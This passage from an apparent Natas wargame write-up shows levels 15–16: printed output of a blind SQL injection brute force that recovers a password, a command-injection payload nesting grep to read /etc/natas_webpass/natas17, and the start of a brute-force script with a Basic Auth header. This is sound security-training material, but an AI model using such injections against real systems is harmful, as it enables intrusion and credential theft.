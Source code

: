 ```javascript
// Example app listening at http://localhost:3000
// W
// Wa
// WaI
// WaIH
// WaIHE
// WaIHEa
// WaIHEac
// WaIHEacj
// WaIHEacj6
// WaIHEacj63
// WaIHEacj63w
// WaIHEacj63wn
// WaIHEacj63wnN
// WaIHEacj63wnNI
// WaIHEacj63wnNIB
// WaIHEacj63wnNIBR
// WaIHEacj63wnNIBRO
// WaIHEacj63wnNIBROH
// WaIHEacj63wnNIBROHe
// WaIHEacj63wnNIBROHeq
// WaIHEacj63wnNIBROHeqi
// WaIHEacj63wnNIBROHeqi3
// WaIHEacj63wnNIBROHeqi3p
// WaIHEacj63wnNIBROHeqi3p9
// WaIHEacj63wnNIBROHeqi3p9t
// WaIHEacj63wnNIBROHeqi3p9t0
// WaIHEacj63wnNIBROHeqi3p9t0m
// WaIHEacj63wnNIBROHeqi3p9t0m5
// WaIHEacj63wnNIBROHeqi3p9t0m5n
// WaIHEacj63wnNIBROHeqi3p9t0m5nh
// WaIHEacj63wnNIBROHeqi3p9t0m5nhm
// WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
// fin
```
- This solution can further be improved (made faster) by two ways:
    - binary-searching for characters (using strcmp function in sql)
    - Finding all the characters present in the password beforehand (by using %ch%)

### Level 16 `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`
- Given the character we're not allowed to use, our only choice is to nest a command inside the grep paramter.
- So what we'll do is we'll submit this in the box:
```
submit$(grep -e ^a /etc/natas_webpass/natas17)
```
- If the password of natas17 begins with a, our nested block will be replaced by the actual password and there will be now output, because the outer command will end up grepping submit*some-gibberish*
- On the other hand if the password of natas17 doesn't begin with a, out nested block will be replace with a blank string and the outer command will return a bunch of words (having 'submit' in them).
- We'll use this technique to brute-force the password out:
```javascript
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/', (req, res) => res.send('Hello World!'));

const headers = {
    'Authorization': 'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='
}
```